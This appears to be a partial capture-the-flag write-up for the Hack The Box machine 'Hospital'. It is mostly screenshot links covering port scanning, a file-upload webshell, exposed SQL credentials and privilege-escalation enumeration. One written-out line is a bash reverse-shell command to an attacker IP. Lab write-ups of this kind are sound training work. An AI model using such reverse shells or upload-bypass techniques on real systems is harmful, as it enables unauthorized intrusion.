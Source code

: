 Threader3000 scan:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/c3e2ac2b-ba94-435d-b84a-09a56cdca187)

nmap scan:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/3baeac0c-cf59-4c2d-8466-80f3c8116bb8)
![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/3a1f4b64-bf11-4b7b-a1bb-c9a893ae365e)

hospital.htb is the domain:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/39001823-a25b-469f-aceb-f864c4d06b12)

Seems like rpcclient/smb/ldap does not connect:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/5abd85ad-9fb4-4dc2-a281-ba4ce63e4d38)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/7b8e0057-441b-4cc3-86cf-3887100f2221)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/f9d5f3f3-98ee-4d01-8d22-473b786fbc51)

After visiting the webpage on port 8080, we see an interesting upload feature:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/4fb6996f-1a05-4536-a903-3ede84518add)

Seems to have went through:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/69bd009f-2640-414f-b728-d909365c1504)

dirsearch results:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/c519489f-f328-4bdc-a5cd-3b4b7cf3f1f4)

We seem to have no permission, but accessing the file directly works:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/026f37be-ba5c-459e-925c-6c65d76ad09d)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/708a50e2-2fdc-4beb-9d77-88f53334f4f2)

Seems like we are on another machine, since Hospital should be a Windows box but this one is Linux:

Found some sql creds:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/95507aee-e924-4b9a-b5b5-bbd1560c88a0)

Stabilizing:

Running ``` bash -c "bash -i >& /dev/tcp/10.10.14.194/1234 0>&1" ``` in the webshell

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/4a3944db-e489-4a19-b981-a9773124c251)

Running linpeas:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/65067cd0-e53d-48ed-a585-2c255c481891)




## What I Learned
Folder perms != file perms, even if you can't access the directory, you may be able to access a file in the directory
.phar extension
